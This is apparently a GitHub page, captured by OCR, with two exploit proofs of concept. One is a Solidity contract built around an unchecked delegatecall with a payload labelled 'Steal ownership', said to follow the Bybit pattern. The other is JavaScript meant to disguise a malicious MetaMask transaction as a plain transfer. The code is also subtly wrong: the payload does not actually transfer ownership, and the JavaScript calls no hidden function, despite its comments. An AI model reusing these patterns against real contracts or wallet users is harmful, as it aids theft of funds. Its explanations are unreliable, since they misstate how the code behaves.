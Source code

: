 ### Delegatecall Exploit POC

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract BybitStyleExploit {
    address public owner;
    
    constructor() {
        owner = msg.sender;
    }
    
    // Vulnerable function similar to Bybit pattern
    function executeTransaction(address target, bytes calldata data) external {
        require(msg.sender == owner, "Not owner");
        
        // VULNERABILITY: Unchecked delegatecall
        (bool success,) = target.delegatecall(data);
        require(success, "Transaction failed");
    }
    
    // Exploit payload
    function maliciousPayload() external {
        // This function would be called via delegatecall
        // allowing attacker to modify contract storage
        owner = msg.sender; // Steal ownership
    }
}
```

### UI Deception POC

```javascript
// MetaMask transaction deception
async function createDeceptiveTransaction() {
    const contract = new web3.eth.Contract(DECEPTIVE_ABI, CONTRACT_ADDRESS);
    
    // Function appears to be innocent transfer
    const txData = contract.methods.transfer(
        "0x742d35Cc6634C0532925a3b8D6202DB14c5a3E6f", // Appears as recipient
        "1000000000000000000" // Appears as 1 ETH
    ).encodeABI();
    
    // But actually calls hidden delegatecall function
    const maliciousTx = {
        to: CONTRACT_ADDRESS,
        data: txData,
        value: 0,
        gas: 100000
    };
    
    return maliciousTx;
}
```
